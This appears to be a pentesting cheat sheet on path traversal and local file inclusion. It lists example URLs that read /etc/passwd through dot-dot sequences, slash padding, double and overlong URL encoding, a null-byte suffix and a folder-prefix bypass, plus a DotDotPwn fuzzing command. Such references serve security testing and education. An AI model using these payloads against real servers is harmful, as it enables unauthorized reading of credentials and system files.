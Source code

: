 # Path Traversal/File Inclusion

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

* Application code and data.
* Credentials for back-end systems.
* Sensitive operating system files.

## Basic LFI and bypasses

```bash
http://example.com/home.php?id=../../../etc/passwd
http://example.com/home.php?id=....//....//etc/passwd
http://example.com/home.php?id=..///////..////..//////etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=....\/....\/....\/etc/passwd
http://example.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/home.php?id=/var/www/../../etc/passwd
```

## Null Byte

Bypass by appending additional characters to the end of the provided string (bypassing: `$_GET['param']."php"`)

```bash
http://example.com/home.php?id=../../../../etc/passwd%00
```

This is **solved since PHP 5.4**

## Encoding

You could use non-standard encondings like double URL encode:

```bash
http://example.com/home.php?id=..%252f..%252f..%252fetc%252fpasswd
http://example.com/home.php?id=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd%00
http://example.com/home.php?id=%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%2fpasswd
```

## From existent folder

It's possible that the back-end is verifying the folder path:

```bash
http://example.com/home.php?id=utils/scripts/../../../../../etc/passwd
```

## Tools

### [DotDotPwn](https://github.com/wireghoul/dotdotpwn)

It's a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```bash
 sudo ./dotdotpwn.pl -m http-url -u https://example.com/image?id=TRAVERSAL -O -k "root:"
```

## Wordlists

* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)





